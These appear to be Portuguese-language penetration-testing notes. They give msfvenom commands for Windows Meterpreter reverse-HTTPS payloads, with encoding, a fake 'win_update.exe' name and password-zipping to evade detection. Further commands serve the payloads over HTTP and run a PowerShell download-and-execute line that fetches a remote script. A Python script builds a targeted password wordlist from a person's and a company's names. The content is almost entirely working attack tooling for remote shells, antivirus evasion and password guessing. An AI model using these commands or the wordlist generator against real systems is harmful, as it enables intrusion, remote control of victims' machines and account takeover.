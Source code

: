 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation


http://192.168.1.128:8080/update_pacth.exe

zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe

IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.128:8080/payload.ps1')


import itertools

palavras_base = ["rsilva", "atibaia", "suma", "empresa", "admin"]

numeros = ["", "123", "2024", "2023", "2022", "007", "001", "777"]
simbolos = ["", "!", "@", "#", "$"]

# Substituições leet
substituicoes = {
    "a": ["a", "@", "4"],
    "i": ["i", "1"],
    "s": ["s", "$", "5"],
    "o": ["o", "0"],
    "e": ["e", "3"]
}

def gerar_leet_variacoes(palavra):
    combos = [[]]
    for char in palavra:
        novos = []
        if char.lower() in substituicoes:
            for c in substituicoes[char.lower()]:
                for combo in combos:
                    novos.append(combo + [c])
        else:
            for combo in combos:
                novos.append(combo + [char])
        combos = novos
    return set("".join(c) for c in combos)

wordlist = set()

for palavra in palavras_base:
    variacoes_leet = gerar_leet_variacoes(palavra)
    for variacao in variacoes_leet:
        wordlist.add(variacao)
        wordlist.add(variacao.capitalize())
        wordlist.add(variacao.upper())
        # Adiciona combinações com números e símbolos
        for numero in numeros:
            for simbolo in simbolos:
                wordlist.add(variacao + numero)
                wordlist.add(variacao + simbolo)
                wordlist.add(variacao + numero + simbolo)

# Combinações entre palavras
for comb in itertools.permutations(palavras_base, 2):
    base = "".join(comb)
    variacoes_comb = gerar_leet_variacoes(base)
    for variacao in variacoes_comb:
        wordlist.add(variacao)
        for numero in numeros:
            for simbolo in simbolos:
                wordlist.add(variacao + numero)
                wordlist.add(variacao + simbolo)
                wordlist.add(variacao + numero + simbolo)

with open("wordlist_personalizada_advanced.txt", "w") as file:
    for senha in wordlist:
        file.write(senha + "\n")

print(f"[+] Wordlist avançada gerada com {len(wordlist)} combinações -> wordlist_personalizada_advanced.txt")




